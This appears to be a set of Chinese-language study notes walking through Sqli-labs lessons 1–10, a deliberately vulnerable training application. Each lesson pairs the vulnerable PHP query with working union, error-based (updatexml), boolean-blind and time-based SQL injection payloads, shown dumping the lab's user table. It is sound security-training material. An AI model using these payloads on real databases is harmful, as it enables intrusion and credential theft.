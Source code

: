 ### Sqli-labs



##### 1. less-1,single quotes - String

显示位置在2,3号

http://192.168.217.113:7766/Less-1/?id=1' union select 1,2,3 limit 1,1 --+

```sql
// 查询库名： 
(select group_concat(schema_name) from information_schema.schema)
// 查询表名： 
(select group_concat(table_name) from information_schema.tables where table_schema='security')
// 查询表内列名： 
(select group_concat(column_name) from information_schema.columns where table_name='users')
// 爆破所有数据: 
(select group_concat(username) from security.users) ,  (select group_concat(password) from security.users)
```





##### 2. Less-2, - integer

http://192.168.217.113:7766/Less-1/?id=1 union select 1,2,3 limit 1,1 --+

整型和字符型的区别  在于需不需要提前使用`'`进行截断

```php
// 字符串型
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
// 整型
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```



##### 3. Less-3,Single quotes with twist - String

http://192.168.217.113:7766/Less-1/?id=1') union select 1,2,3 limit 1,1 --+

上面的方式不能生效了，对比之后多了个`()`，因此需要补全括号，否则永远被括号括起来，最后结果还是逃不掉最后的limit

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```



##### 4. Less-4,Double Quotes - String

http://172.16.51.129:7766/Less-4/?id=1") union select 1,2,3 limit 1,1 --+

 使用`""`对查询内容进行拼接，并且放在了`()`中。

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";

```



##### 5. Less-5,Single Quote - String

http://172.16.51.129:7766/Less-5/?id=1'

从输出可知（无回显），页面只会展示成功或失败的逻辑，但是输入`1'`会输出错误，则可以使用错误注入

```sql
// undatexml 存在返回长度为32，因此需要使用substr，一段一段去获取
// 查询库名
and (updatexml(1,concat(0x7e, substr((select group_concat(schema_name) from information_schema.schema),64,32 ),0x7e),1));
// 结果： information_schema,challenges,mysql,performance_schema,security
// 查询表名
and (updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema="security") ,0x7e),1));
// 结果：emails,referers,uagents,users
// 查询列名
and (updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name="users") ,0x7e),1));
// 结果： id,username,password
// 爆破数据
and (updatexml(1,concat(0x7e, substr((select group_concat(username) from security.users),1,32 ),0x7e),1));
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
and (updatexml(1,concat(0x7e, substr((select group_concat(password) from security.users),1,32 ),0x7e),1));
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```



##### 6. Double Quotes -String

尝试加`'`,`"`，在使用双引号的时候，会有回显

http://172.16.104.130:7766/Less-6/?id=1"



##### 7. Dump Into outfield - String

没有回显，而且感觉会根据sql查询结果，如果查询失败，就页面显示失败不是调用`sql_error()`那种，成功就展示成功语句。应该只能使用布尔。

有点贱，用了两个`()`

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";	
```

http://172.16.104.130:7766/Less-7/?id=1')) and 1=1 跟 1=2 ，会有正确或错误返回。

**ps：**别人答案是使用outfile写shell？





##### 8. Boolian Based - Single Quotes

这题只有成功会显示，失败就啥东西都没有，很恶心。

并且在你构造语句的时候，在处理完`'`之后，需要在语句结尾补齐`;`否则还是会语句有错。

之后的是就是布尔。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";	
```

```sql
// 判断库名长度  使用Burp Suite爆破，步长1,循环判断长度
and (length(database() = 8)); --+
// 判断库名  使用Burp Suite爆破，步长1，循环判断字符内容。
and (substr(database(),1,1)='a'); --+
// 结果： security
// 判断表名长度
and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 6 --+
// 爆破表名
and (substr( (select table_name from information_schema.tables where table_schema=database() limit 0,1), 1,1 ) = 'a') --+
// 结果：emails,referers,uagents,users
// 爆破user表列名
and (substr( (select column_name from information_schema.columns where table_name="users" limit 0,1),1,1 )='a'); --+
// 结果： id,username,password
// 爆破user数据
and (substr( (select username from users limit 0,1),1,1 ) = 'a');--+
and (substr( (select password from users limit 0,1),1,1 ) = 'a');--+
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```







##### 9. Bind - Time Based - Singe Quote

无论成功，还是失败，返回的内容都是一样的，绝望。。。只能使用最蠢的时间。

```sql
// 判断库名  使用Burp Suite爆破，步长1，根据响应返回结果长度筛选
and if( substr(database(),1,1), sleep(5), 1); --+	
// 爆破表名 
and if( substr( (select group_concat(table_name) from information_schema.tables where table_schema=database() ),1,1)='e',sleep(5),1); --+
// 结果：emails,referers,uagents,users
// 爆破users列名
and if( substr( (select group_concat(column_name) from information_schema.columns where table_name="users"),1,1)='i', sleep(5),1); --+
// 结果： id,username,password
// 爆破users数据
and if( substr( (select group_concat(username) from security.users),1,1)='d',sleep(5),1); --+
and if( substr( (select group_concat(password) from security.users),1,1)='d',sleep(5),1); --+
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```



##### 10. Blind - Time Based - Double Quote

这种引号的使用方式，是真的太骚了。

**ps：**需要补一下php的编码格式，这里是等于输入`""`指定id

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

```sql
/Less-10/?id=1" and if(1=1,sleep(5),1); --+
```



